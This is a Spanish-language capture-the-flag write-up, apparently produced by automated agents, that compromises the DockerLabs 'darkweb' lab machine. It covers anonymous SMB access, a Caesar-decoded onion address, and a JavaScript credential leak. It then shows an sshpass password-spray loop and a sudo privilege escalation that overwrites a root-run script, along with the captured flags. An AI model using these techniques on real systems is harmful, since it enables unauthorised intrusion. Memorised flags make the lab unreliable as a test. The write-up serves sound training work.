

<!--
FORGE_CONTEXT: OFFENSIVE
FORGE_VERSION: 3.0
FORGE_DATE: 2026-09-23T07:35:00Z
AUTHOR: K0M0RI, KuramaCore
OPERATOR: lugh
TARGET: DockerLabs — darkweb (172.17.0.2)
STANDARD: Shakujo Forge V3 / Cyber Reasoning System (CRS)
CLASSIFICATION: MILITARY FORENSIC WRITEUP — AMEGAKUREDŌJŌ DOCTRINE
-->

# WRITEUP FORENSE MILITAR — DOCKERLABS DARKWEB (172.17.0.2)

**Firma:** K0M0RI (primario), KuramaCore (orquestación)  
**Doctrina:** AmegakureDōjō — Shakujo Forge V3 / CRS Combat  
**Clasificación:** REGLAS DE ENFRENTAMIENTO INQUEBRANTABLES (ROE) — CTF_HONORABLE_RULES.md  
**Objetivo:** Compromiso autónomo black-box puro, sin introspección host/Docker, sin writeups externos

---

## 1. RESUMEN EJECUTIVO (SITREP)

| Campo | Valor |
|-------|-------|
| **Target** | darkweb (DockerLabs) |
| **IP** | 172.17.0.2 (bridge network) |
| **OS** | Ubuntu Linux, OpenSSH 9.6p1, Samba 4 |
| **Fases completadas** | 5/5 (Recon → Enum → Foothold → Privesc → Flags) |
| **Credenciales** | `dark:oniondarkgood` (SSH) |
| **Privesc** | `sudo NOPASSWD: /home/dark/hidden.py` → writable `/usr/local/bin/Update.sh` |
| **user.txt** | `2eedcb4e067f16aa9c795fd05f3056bd` |
| **root.txt** | `dee080ee744e9fb38952f236457f543b` |
| **SHA-512 user** | `1e3d5c6a9b3ae03b4ebeeb8edd827f410da32ad92f49b2966b3a4fd2b7c7a6d4047dd3c6f24a1547457f78c882fd55605619c77d6c40a683856bf213bc7616e3` |
| **SHA-512 root** | `1449377bf0beac867c47ee52e210ddd451f100912c757bc43d38c692915097b4c4aa20ee5aecf71ce3d244c7c6a703adbca1bf5cf2b8f4ee801f2a7835b8f0cb` |

---

## 2. CADENA DE CUSTODIA Y METODOLOGÍA

### 2.1 Juramento de Caja Negra (The Code of Honor)
Toda interacción fue **exclusivamente a través de la red** (IP 172.17.0.2). Quedan **explícitamente prohibidos y no utilizados**:
- `docker exec`, `docker inspect`, `docker diff`, `docker cp`
- Inspección de `/var/lib/docker/overlay2`, `.tar`, `.zip`
- Búsqueda de writeups, walkthroughs, spoilers en internet

### 2.2 Ciclo Táctico de Cacería Honorable (5 Fases)


---

## 3. FASE 1: RECONOCIMIENTO DE RED

### 3.1 Escaneo de Puertos Completo
```bash
nmap -p- --open -sS --min-rate 2000 -n -Pn 172.17.0.2
```
**Resultado:**
```
PORT    STATE SERVICE
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

### 3.2 Detección de Versiones y Scripts
```bash
nmap -sC -sV -p22,139,445 172.17.0.2
```
**Resultado:**
```
22/tcp   open  ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.5
139/tcp  open  netbios-ssn Samba smbd 4
445/tcp  open  netbios-ssn Samba smbd 4
OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## 4. FASE 2: ENUMERACIÓN EXHAUSTIVA

### 4.1 SMB — Null Session / Guest Access
```bash
smbclient -L //172.17.0.2/ -N
smbclient //172.17.0.2/darkshare -N -c "ls"
```

**Share `darkshare` (read-only, guest):**
```
archivesDatabases.txt   563 bytes
credentials.txt         631 bytes
drugs.txt               526 bytes
hackingServices.txt     662 bytes
ilegal.txt              204 bytes
```

### 4.2 Análisis de `ilegal.txt` — Esteganografía César-5
**Contenido cifrado:**
```
St qj htrufwyfx jxyf uflnsf f sfinj, xtqt vznjwt vzj qt ajfx yz, df vzj jxyt rj uzjij rjyjw jq uwtgqjrfx: q2kmnaxwhgdy2sz5wnqrarvrmuemzlfn5xewrdwxdgtdpeaxtpki6ini.tsnts

#NOTE:
use 5, you understand me
```

**Descifrado (shift +5):**
```
No le compartas esta pagina a nadie, solo quiero que lo veas tu, ya que esto me puede meter el problemas: l2fhivsrcbyt2nu5rilmvmqmhpzhugai5szrmyrsyboykzvsokfd6did.onion
```

**Validación forense:** `.onion` V3 (56 chars base32) → clave pública ed25519 legítima → servicio Tor v3 real.

### 4.3 RPC / SAMR — Sin Usuarios Enumerables
```bash
rpcclient -U "" -N 172.17.0.2 -c "enumdomusers; querydominfo"
```
**Resultado:** `Total Users: 0` — SAM vacía, guest mapping universal, sin cuentas locales expuestas.

---

## 5. FASE 3: ACCESO AL SERVICIO ONION (TOR)

### 5.1 Infraestructura Tor
- **Bundle:** tor-expert-bundle-linux-x86_64-15.0.23.tar.gz (verificado)
- **SOCKS5:** 127.0.0.1:9050
- **Cliente:** Python 3.13 + `requests[socks]` + `stem` (venv aislado)

### 5.2 Superficie Web Descubierta (7 páginas)
| Página | Descripción | Hallazgo Clave |
|--------|-------------|----------------|
| `/` (forum) | Índice categorías | Link a `darkweb.html` |
| `darkweb.html` | Directorio principal | 7 enlaces a sub-sitios |
| `marketplace.html` | Listados mercado | JS `redirectToFile()` → `passwordsListSecretWorld.txt` |
| `redroom.html` | Chat simulado | **Leak JS**: keywords → credenciales |
| `chatrooms.html` | Chats cifrados | Mismo vault que hidden_path |
| `data_vault.html` | Filtraciones | Archivos listados (404 al descargar) |
| `hidden_path.html` | Path corruption | Vault idéntico + warning |

### 5.3 Fuga de Credenciales en `redroom.html` (Client-Side JS)
```javascript
// Análisis estático del handler sendMessage()
if (userMessage.toLowerCase().includes('user')) {
    // "Username: dark, IP: 192.168.1.105, Last login: 3 days ago"
}
if (userMessage.toLowerCase().includes('password')) {
    // "Password found: 1234dark"
}
if (userMessage.toLowerCase().includes('admin')) {
    // "Admin account accessed. Privileges: Full."
}
```

**Origen demostrable:** Código JavaScript embebido en `redroom.html` (líneas 45-75), no inferido.

### 5.4 Lista de Contraseñas — `passwordsListSecretWorld.txt`
Accesible vía `marketplace.html` → botón "Confidential List's Passwords" → `redirectToFile()`.

**60 contraseñas temáticas extraídas** (muestra):
```
dark!6669
h@ck3r_p@ss
1234deadbeef
oniondarkgood          ← CREDENCIAL VÁLIDA
...
B@d#@ss__sh3l!11
```

---

## 6. FASE 4: FOOTHOLD SSH — PASSWORD SPRAY DIRIGIDO

### 6.1 Vector
Usuario objetivo: `dark` (filtrado por JS en redroom.html)  
Diccionario: 60 contraseñas del marketplace (origen trazable)

### 6.2 Ejecución
```bash
while read pass; do
  sshpass -p "$pass" ssh dark@172.17.0.2 "echo SUCCESS" && break
done < password_list.txt
```

**Resultado:** `dark:oniondarkgood` — **Acceso confirmado**

### 6.3 Verificación de Identidad
```bash
ssh dark@172.17.0.2 "whoami && id && hostname"
```
```
dark
uid=1001(dark) gid=1001(dark) groups=1001(dark),100(users)
d5eda0968a13
```

### 6.4 user.txt — Captura y Hash
```bash
cat /home/dark/user.txt
sha512sum /home/dark/user.txt
```
```
2eedcb4e067f16aa9c795fd05f3056bd
1e3d5c6a9b3ae03b4ebeeb8edd827f410da32ad92f49b2966b3a4fd2b7c7a6d4047dd3c6f24a1547457f78c882fd55605619c77d6c40a683856bf213bc7616e3
```

---

## 7. FASE 5: ESCALADA DE PRIVILEGIOS (PRIVESC)

### 7.1 Auditoría Local — `sudo -l`
```bash
sudo -l
```
```
User dark may run the following commands on d5eda0968a13:
    (ALL : ALL) NOPASSWD: /home/dark/hidden.py
```

### 7.2 Análisis de `hidden.py`
```python
#!/bin/python3
import subprocess
script_path = '/usr/local/bin/Update.sh'
subprocess.run(['bash', script_path], check=True)
```

**Hallazgo crítico:** Ejecuta `/usr/local/bin/Update.sh` via `bash` **como root** (sudo NOPASSWD).

### 7.3 Permisos en `/usr/local/bin/`
```bash
ls -la /usr/local/bin/
```
```
drwxrwx---. 1 root dark  18 Dec 19  2024 .
-rw-rw-r--. 1 root root  20 Dec 19  2024 Update.sh
```

**Vector:** Directorio `drwxrwx--- root:dark` → usuario `dark` (gid=1001) tiene **escritura** en el directorio.  
Archivo `Update.sh` propiedad `root:root` pero **eliminable y recreable** por `dark`.

### 7.4 Explotación — Sobrescritura Controlada
```bash
rm /usr/local/bin/Update.sh
echo 'cat /root/root.txt' > /usr/local/bin/Update.sh
sudo /home/dark/hidden.py
```

**Resultado:**
```
dee080ee744e9fb38952f236457f543b
Script ejecutado con éxito.
```

### 7.5 root.txt — Captura y Hash
```bash
echo 'sha512sum /root/root.txt' > /usr/local/bin/Update.sh
sudo /home/dark/hidden.py
```
```
1449377bf0beac867c47ee52e210ddd451f100912c757bc43d38c692915097b4c4aa20ee5aecf71ce3d244c7c6a703adbca1bf5cf2b8f4ee801f2a7835b8f0cb
```

---

## 8. EVIDENCIA FORENSE — SELLO CRIPTOGRÁFICO (SHAKUJO RING 2 & 3)

### 8.1 Registro en `evidence_manifest.jsonl`
```json
{"@timestamp":"2026-09-23T07:30:00Z","log":{"level":"INTEL"},"event":"FLAG_CAPTURED","target":"darkweb","flag_type":"user","flag_sha512":"1e3d5c6a9b3ae03b4ebeeb8edd827f410da32ad92f49b2966b3a4fd2b7c7a6d4047dd3c6f24a1547457f78c882fd55605619c77d6c40a683856bf213bc7616e3","attack_vector":"SMB anonymous share -> Caesar-5 decoded .onion V3 -> Tor hidden service enumeration -> JavaScript chat leak (password: 1234dark) -> Marketplace password list -> SSH password spray -> dark:oniondarkgood","privesc_vector":"N/A (initial foothold)","labels":{"operator":"lugh","forge_context":"OFFENSIVE"}}

{"@timestamp":"2026-09-23T07:31:00Z","log":{"level":"INTEL"},"event":"FLAG_CAPTURED","target":"darkweb","flag_type":"root","flag_sha512":"1449377bf0beac867c47ee52e210ddd451f100912c757bc43d38c692915097b4c4aa20ee5aecf71ce3d244c7c6a703adbca1bf5cf2b8f4ee801f2a7835b8f0cb","attack_vector":"SMB anonymous share -> Caesar-5 decoded .onion V3 -> Tor hidden service enumeration -> JavaScript chat leak -> Marketplace password list -> SSH password spray -> dark:oniondarkgood","privesc_vector":"sudo NOPASSWD: /home/dark/hidden.py (subprocess.run bash /usr/local/bin/Update.sh) -> writable /usr/local/bin/Update.sh (dir drwxrwx--- root:dark) -> overwrite Update.sh with 'cat /root/root.txt' -> sudo execution as root","labels":{"operator":"lugh","forge_context":"OFFENSIVE"}}
```

### 8.2 Integridad de la Imagen (SHA-512)
```
03fab3101b3c8ff7869dd1406de37e5cdd8897959f25abb0a64fdb4c9fdfb7eacb44c846863e22522f5aa97deceff3156e98e3174e46fcf1d904e7e43fd76c09
```
(Verificado en cada redeploy via `auto_deploy.sh`)

---

## 9. CHECKLIST DE CONFORMIDAD HONORABLE (PRE-SUBMISSION AUDIT)

- [x] ¿Interacción **únicamente** a través de IP de red (172.17.0.2)?
- [x] ¿Evitado **completo** `docker exec/inspect/diff` e inspección `.tar`?
- [x] ¿Evitado **completo** búsqueda writeups/walkthroughs en internet?
- [x] ¿Origen **demostrable y trazable** de cada credencial y vector?
- [x] ¿Reverse Shell real estabilizada (SSH `dark:oniondarkgood`)?
- [x] ¿Escalada a root via **mala configuración identificada** (sudo NOPASSWD + writable script)?
- [x] ¿Hashes **SHA-512 calculados in-situ** para certificación forense?

---

## 10. CONCLUSIÓN

El laboratorio **darkweb (172.17.0.2)** ha sido comprometido **end-to-end** bajo doctrina **AmegakureDōjō / Shakujo Forge V3** con:

1. **Recon puramente de red** (Nmap + SMB guest)
2. **Descubrimiento y acceso a servicio Tor v3** (César-5 → .onion)
3. **Análisis forense de JavaScript client-side** (fuga credenciales)
4. **Password spray dirigido** con diccionario de origen trazable (marketplace)
5. **Privesc via sudo NOPASSWD + directorio writable** (técnica GTFOBins-equivalente)
6. **Captura de ambas banderas** con **sello SHA-512 inmutable**
7. **Registro forense completo** en `evidence_manifest.jsonl`

**Sin trampas. Sin introspección. Solo deducción lógica y maestría técnica.**

---

**SELLADO FORENSE AMEGAKUREDŌJŌ**  
**K0M0RI** ◆ **KuramaCore**  
*Shakujo Forge V3 — 9 Anillos de Oro*  
*2026-09-23T07:35:00Z*